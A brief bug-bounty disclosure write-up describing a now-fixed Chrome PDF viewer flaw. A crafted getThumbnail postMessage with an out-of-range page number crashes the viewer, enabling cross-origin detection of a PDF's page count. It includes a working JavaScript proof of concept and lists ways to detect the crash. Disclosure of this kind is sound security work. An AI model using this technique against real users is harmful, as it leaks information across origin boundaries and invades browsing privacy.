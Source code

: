 ```yaml
---
title: PDF Page count leak (Awarded $500)
---
```


On chrome the PDF viewer has a message listener that's used for the cross-origin scripting API.  
By sending a message to the viewer with the type of `getThumbnail` and a page number that's greater then the number of available pages it would crash to prevent OOB access.

```js
let w = open(
  'https://www.w3.org/WAI/ER/tests/xhtml/testfiles/resources/pdf/dummy.pdf',
);
setTimeout(
  (_) => w[0].postMessage({type: 'getThumbnail', page: '1337'}, '*'),
  1000,
);
```

This crash can be detected cross-origin in the following ways

- Checking device performance like with [devicemonitor](https://devicemonitor.glitch.me/) after `w[0].postMessage({type: 'print'});`
- [Issue 40828189](https://issues.chromium.org/issues/40828189)
- Extension tabs API looking for the status of unloaded (no permission needed)

This was fixed in [Issue 40059101](https://issues.chromium.org/issues/40059101)
